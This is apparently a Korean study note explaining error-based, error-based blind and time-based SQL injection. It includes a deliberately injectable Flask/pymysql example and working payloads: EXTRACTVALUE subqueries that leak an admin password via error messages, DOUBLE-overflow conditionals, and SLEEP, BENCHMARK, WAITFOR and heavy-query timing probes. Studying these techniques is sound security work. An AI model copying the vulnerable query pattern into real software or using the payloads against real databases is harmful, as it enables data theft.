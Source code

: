 # Error & Time based SQL Injection

* 쿼리 결과를 애플리케이션의 기능에서 출력하지 않는 경우에 사용할 수 있는 SQL Injection 공격 형태
    - **공격 성공 여부를 어떻게 판단하느냐**에 따라 명칭이 구분됨

<br/>

## Error based SQL Injection
임의로 에러를 발생시켜 데이터베이스 및 운영체제의 정보를 획득하는 공격 기법
* 애플리케이션에서 발생하는 에러를 이용해 공격하려고 한다면 **런타임 에러**(Runtime Error, *쿼리가 실행되고 나서 발생하는 에러*)가 필요함
    - 문법 에러(Syntax Error)와 같이 DBMS에서 쿼리가 실행되기 전에 발생하는 에러는 불가능함
* 공격자는 오류(에러) 메시지를 통해 공격에 필요한 다양한 정보를 수집하고 원하는 데이터를 획득할 수 있음
    - 에러 메시지와 같이 쿼리 실행 결과를 직접 노출하지는 않지만, **중요한 정보를 노출하는 방법들이 존재함**

<br/>

### Error based SQL Injection 예시
```python
from flask import Flask, request # Flask 프레임워크 사용
import pymysql

app = Flask(__name__)

def getConnection():
	return pymysql.connect(host='localhost', user='dream', password='hack', db='dreamhack', charset='utf8')

@app.route('/', methods=['GET'])
def index():
	username = request.args.get('username') # 이용자가 전달한 username 인자값을 가져옴
	sql = "SELECT username FROM users WHERE username='%s'" %username # 이용자의 입력값 username이 별다른 검사 없이 SQL 쿼리에 포함 → SQL Injection 취약점이 발생함

	conn = getConnetion()
	curs = conn.cursor(pymysql.cursors.DictCursor)
	curs.execute(sql)
	rows = curs.fetchall()
	conn.close()

    # SQL 실행 결과를 출력하는 코드가 존재하지 않고 쿼리 실행 결과만을 판단함
	if (rows):
		return "True"
	else:
		return "False"

app.run(host='0.0.0.0', port=8000, debug=True) # 디버그 모드 활성화(debug=True)
```
* Error based SQL Injection 공격 방법
    - Flask 프레임워크로 개발된 애플리케이션에서 디버그 모드를 활성화하면 코드에서 오류가 발생했을 때 발생 원인을 출력함
        + username에 ```admin 1'``` 쿼리를 삽입했을 경우
            ```sql
            # 생성되는 쿼리 → 실행 결과 문법 에러(Syntax Error) 발생
            SELECT username FROM users WHERE username='admin 1''
            ```
	    	![extractvalue_error](https://github.com/augustf86/Today_I_Learn/assets/122844932/1456e630-17c8-4ef3-8210-9243933f7493)

* Error based SQL Injection 공격 코드
    - ```EXTRACTVALUE``` 함수: 첫 번째 인자로 전달된 XML 데이터에서 두 번째 인자인 XPATH 식을 통해 데이터를 추출하는 함수
        + 두 번째 인자로 올바른 XPATH 식을 전달한 경우 쿼리가 정상적으로 실행됨
            ```sql
            SELECT EXTRACTVALUE('<a>test</a><b>abcd</b>', '/a'); # 결과: test
            ```
        + 두 번째 인자로 올바르지 않은 XPATH 식을 전달한 경우 에러 메시지에 삽입된 식의 결과가 출력됨
            ```sql
            SELECT EXTRACTVALUE(1, ":abcd");
            # 결과: ERROR 1105 (HY000): XPATH syntax error: ':abcd'
            ```
            - 올바르지 않은 XPATH 식에 중요한 정보를 추출할 수 있는 식을 입력한다면 공격자는 중요 정보를 획득할 수 있음
    - MySQL 환경에서 Error based SQL Injection으로 공격할 때 많이 사용하는 쿼리와 실행 결과
        ```sql
        SELECT EXTRACTVALUE(1, CONCAT(0x3a, version()));
        # 결과: ERROR 1105 (HY000): XPATH syntax error: ':5.7.29-0ubuntu0.16.04.1-log'
        ```
        + XPATH식에 삽입된 ```version``` 함수가 실행되면서 에러 메시지에 운영 체제에 대한 정보(```'0ubuntu0.16.04.1'```)가 포함되어 있음 → 공격자는 이 정보를 이용해 1-day 또는 0-day 공격을 통해 서버를 장악할 수 있음
        + ```CONCAT``` 함수: 둘 이상의 문자열을 입력한 순서대로 합쳐서 반환해주는 함수
            - 사용 형식: ```CONCAT(문자열1, 문자열2[, 문자열3, ...])```
    - ```EXTRACTVALUE``` 함수를 응용하여 데이터베이스의 정보를 추출하는 쿼리와 실행 결과
        ```sql
        SELECT EXTRACTVALUE(1, CONCAT(0x3a, (SELECT password FROM users WHERE username='admin')))
        # 결과: ERROR 1105 (HY000): XPATH syntax error: ':This_is_admin_PASSW@rd'
        ```
        + XPATH식에 삽입된 서브 쿼리가 실행되면서 에러 메시지에 users 테이블의 admin 사용자의 비밀번호가 포함되어 있음 → 공격자는 서브 쿼리를 사용해 임의 테이블의 데이터를 획득할 수 있음

<br/><br/>

## Error based Blind SQL Injection
Blind SQL Injection과 Error based SQL Injection을 동시에 활용하는 공격 기법
* Error based SQL Injection과 Error based Blind SQL Injection의 차이
    | Error based SQLI | Error based Blind SQLI |
    |---|---|
    | 에러 메시지를 통해 출력된 데이터로 정보를 수집해 출력값에 영향을 받음 | 에러 발생 여부만을 필요로 하기 때문에 용이하게 사용할 수 있음 |
* 서버가 반환하는 HTTP 상태 코드 또는 애플리케이션 응답 차이 등을 통해 에러 발생 여부를 확인하고 참/거짓 여부를 판단할 수 있음
    - 예시: MySQL의 DOUBLE 자료형의 최댓값을 초과해 에러를 발생시키는 경우
        ```sql
        SELECT IF(1=1, 9e307*2, 0); # 1=1이 참이므로 9e307*2를 반환 (결과: ERROR 1690 (22003): DOUBLE value is out of range in '(9e307 * 2)')

        SELECT IF(1=0, 9e307*2, 0); # 1=0이 거짓이므로 0을 반환
        ```

<br/>

### Short-circuit evaluation
로직 연산의 원리를 이용해 공격하는 방법
* AND 연산자를 이용해 공격 → 처음의 식의 결과(참/거짓)에 따라 뒤의 식의 결과가 달라진다는 점을 이용함
    ```sql
    # 처음 식이 거짓을 반환하기 때문에 SLEEP 함수가 실행되지 않음
    SELECT 0 AND SLEEP(1); # 결과: 1 row in set (0.00 sec)

    # 처음 식이 참을 반환하기 때문에 SLEEP 함수가 실행됨
    SELECT 1 AND SLEEP(10); # 결과: 1 row in set (10.04 sec)
    ```
* 예시: OR 연산자를 이용해 공격 → 처음 식이 참이라면 뒤의 식의 결과가 실행에 영향을 주지 않는다는 점을 이용함
    ```sql
    # 처음 식이 참이므로 뒤의 식이 DOUBLE 자료형의 최댓값을 초과함에도 불구하고 에러 메시지 대신에 상적인 결과를 출력함
    SELECT 1=1 OR 9e307*2; # 결과: 1

    # 처음 식이 거짓이고, 뒤의 식이 DOUBLE 자료형의 최댓값을 초과하므로 에러 메시지를 출력함
    SELECT 1=0 OR 9e307*2; # 결과: ERROR 1690 (22003): DOUBLE value is out of range in '(9e307 * 2)'
    ```

<br/><br/>

## Time based SQL Injection
시간 지연을 통해 쿼리의 참/거짓 여부를 판단하는 공격 기법
* 시간을 지연시키는 방법
    - ```SLEEP```과 같이 DBMS에서 제공하는 함수를 사용
    - 시간이 많이 소요되는 연산을 수행하는 헤비 쿼리(heavy query)를 사용

<br/>

### DBMS별로 Time based SQLI을 통해 공격하는 방법
* MySQL
    - ```SLEEP``` 함수 사용
        + ```SLEEP``` 함수: 대기할 시간(sec)을 인자로 받으며 지정한 시간만큼 대기하게 만드는 함수 (반환값 없음)
            - ```WHERE``` 조건문엔 의해 선택되는 행의 수만큼 ```SLEEP``` 함수를 호출함 → ```WHERE``` 조건문을 이용해 ```SLEEP``` 함수를 반복하게 만들 수 있음
        + 사용 예시
            ```sql
            SELECT SLEEP(1); # 결과: 1 row in set(1.00 sec)
            ```
    - ```BENCHMARK``` 함수 사용
        + ```BENCHMARK``` 함수: 반복 수행할 횟수와 실행할 표현식(반드시 스칼라(단일) 값을 반환해야 함)을 인자로 필요로 하는 함수
            - 지정한 횟수만큼 반복실행하는데 얼마나 시간이 소요되었는지가 중요함
            - 해당 함수로 얻은 쿼리나 함수의 성능은 그 자체로는 별 의미가 없음에 유의 (두 개의 동일 기능을 상대적으로 비교 분석하는 용도로만 사용할 것을 권장함)
        + 사용 예시
            ```sql
            SELECT BENCHMARK(4000000, SHA1(1)); # 결과: 1 row in set (10.78 sec)
            ```
    - 헤비 쿼리 사용
        + 헤비 쿼리 예시
            ```sql
            SELECT (SELECT COUNT(*) FROM information_schema.tables A, information_schema.tables B, information_schema.tables C) as heavy; # 결과: 1 row in set (1.38 sec)
            ```
* MSSQL
    - ```WAITFOR``` 사용
        + ```WAITFOR DELAY 'time_to_pass'```는 특정 시간 동안 지연시킬 때 사용됨
            - ```'time_to_pass'``` 부분에 '시:분:초:밀리세컨트' 형식으로 딜레이를 줄 수 있음
        + 사용 예시
            ```sql
            SELECT '' IF((SELECT 'abc')='abc') WAITFOR DELAY '0:0:1';
            ```
    - 헤비 쿼리 사용
        ```sql
        SELECT (SELECT COUNT(*) FROM information_schema.columns A, information_schema.columns B, information_schema.columns C, information_schema.columns D);
        ```
* SQLite
    - 헤비 쿼리 사용
        ```sql
        .timer ON
        SELECT LIKE('ABCDEFG', UPPER(HEX(RANDOMBLOB(150000000000000/2)))) # SLEEP TIME: 150000000000000/2
        ```
